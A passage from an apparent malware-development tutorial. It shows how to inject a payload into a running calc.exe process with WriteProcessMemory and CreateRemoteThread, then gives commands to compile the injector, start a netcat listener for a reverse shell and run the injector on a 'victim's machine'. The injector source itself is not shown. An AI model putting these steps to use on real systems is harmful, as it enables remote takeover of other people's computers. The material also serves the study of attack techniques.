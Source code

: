 Then, `WriteProcessMemory` allows you to copy data between processes, so copy our payload to `calc.exe` process **(2)**. And `CreateRemoteThread` is similar to `CreateThread` function but in this function you can specify which process should start the new thread **(3)**.

Let's go to compile this code:   

```bash
x86_64-w64-mingw32-gcc evil_inj.cpp -o evil2.exe -s 
-ffunction-sections -fdata-sections -Wno-write-strings 
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc
```

![compile code injection](./images/6/2021-09-19_00-36.png){width="75%"}

prepare listener:
```bash
nc -lvp 4444
```

and on victim's machine firstly execute `calc.exe`:    

![run victim's process](./images/6/2021-09-19_00-40.png){width="75%"}

Which we can see that the process ID of the `calc.exe` is  `1844`.

Then run our injector from victim's machine:
```cmd
.\evil2.exe 1844
```
